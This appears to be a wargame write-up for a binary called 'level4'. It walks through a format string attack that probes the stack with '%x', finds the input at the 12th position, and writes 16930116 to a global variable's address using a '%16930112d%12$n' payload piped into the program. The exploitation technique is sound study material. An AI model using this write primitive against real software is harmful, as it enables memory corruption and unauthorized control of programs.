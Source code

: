 In this program we have the main that calls the function n() that has the function p() where printf is located:

after the p() being called the return value is being compare in:
0x0804848d <+54>: mov 0x8049810,%eax
0x08048492 <+59>: cmp $0x1025544,%eax

it compares the variable to the number 16930116 (0x1025544)

Same thing as the previous level we have to find the position of our argument
python -c 'print "aaaa" + "%x " * 15' | ./level4
aaaa b7ff26b0 bffff784 b7fd0ff4 0 0 bffff748 804848d bffff540 200 b7fd1ac0 b7ff37d0 61616161 2078252

we can see that our argument is at the 12th position (61616161)

the difference between the last level and this one is that we have to write the value 16930116 in the 12th position of our argument
but we can't write it directly because it's too big so we use the modifier %d to write the number of bytes specified before in the choosen address. We can specify the address with %[number]$n option.
so our final format string attack will look like:

dont forget to remove the 4 bytes from the total number of bytes to write (16930116 - 4 = 16930112)

python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/exploit

cat /tmp/exploit - | ./level4
